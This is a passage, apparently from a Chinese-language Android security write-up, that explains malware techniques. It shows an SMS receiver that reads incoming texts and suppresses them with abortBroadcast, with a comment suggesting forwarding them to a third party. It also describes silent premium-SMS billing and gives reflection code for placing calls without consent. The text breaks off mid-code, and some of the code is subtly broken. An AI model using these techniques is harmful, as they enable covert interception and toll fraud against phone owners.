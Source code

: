 	```xml
	<receiver android:name=".SmsReceiver">
		<intent-filter android:priority="9999">
			<action android:name="android.provider.Telephony.SMS_RECEIVED"/>
		</intent-filter>
	</receiver>
	```
	
	在接收SmsReceiver后做一些拦截操作

	```java
	public class SmsReceiver extends BroadcastReceiver{
		@Override
		public void onReceive(Context context, Intent intent){
			// 判断是否是系统短信
			if (intent.getAction().equals("android.provider.Telephony.SMS_RECEIVED")){
				StringBuffer msgText = new StringBuffer();
				String sender = null;
				Bundle bundle = intent.getExtras();
				if (bundle != null){
					//通过pdus获得接收到的所有短信消息，获取短信内容
					Object[] pdus = (Object[])bundle.get("pdus");
					// 构造短信数组
					SmsMessage[] mges = new SmsMessage[pdus.length];
					for (int i = 0; i < pdus.length; ++i){
						// 获取单挑短信内容，以pdu格式保存，并生成短信对象
						mges[i] = SmsMessage.createFromPdu((byte[])pdus[i]);
					}
					msgText.append("短信来自：").append(mge.getDisplayOriginatingAddress()).append("\n");
					msgText.append("短信内容：").append(mge.getMessageBody());
					
					if ("5555".equals(sender)){
						// 屏蔽手机号为5555的短信
						// 这里还可以实现一些处理，比如把该信息发送到第三人的手机
						abortBroadcast();
					}
				}
				Toast.makeText(context, msgText.toString(), Toast.LENGTH_LONG).show();
			}
		}
	}
	```

- 短信静默发送
	在不通过用户任何许可下在后台静默发送以达到扣费的目的。在Android系统中，希望发送短信的话，一般可通过调用系统的SmsManager中的sendTextMessage方法来完成

#### 电话监控

在android平台上`TelephonyManager`中的方法是针对设备通话的封装，常用的方法有**dial**（拨号界面）、**call**（直接通话）、**endCall**（结束通话）、**answerRingingCall**（接听通话）。其API是不对系统外的应用开放的（注解为@Systemapi)的方法。但是开发者们仍能通过Java中的**反射**方法去调用其接口完成通话直接拨打电话。如下所示，只需要在AndroidManifest.xml中声明CALL_PHONE权限然后调用call方法就能在不经过用户授权的情况下拨打电话：

```java
private void call(String number){
	Class<TelephonyManager> c = TelephoneManager.class;
	Method getITelephonyMethod = null;
	try{
		// setAccessible(true) 跳过java中的private方法的反射权限检查
		// 即我们能够在外部调用private方法而不报错
		getITelephonyMethod = c.getDeclareMethod("getITelephony", (Class[])null);
		getITelephonyMethod.setAccessible(true);
	}catch(Exception e){
		e.printStackTrace();
	}
	
	try{
```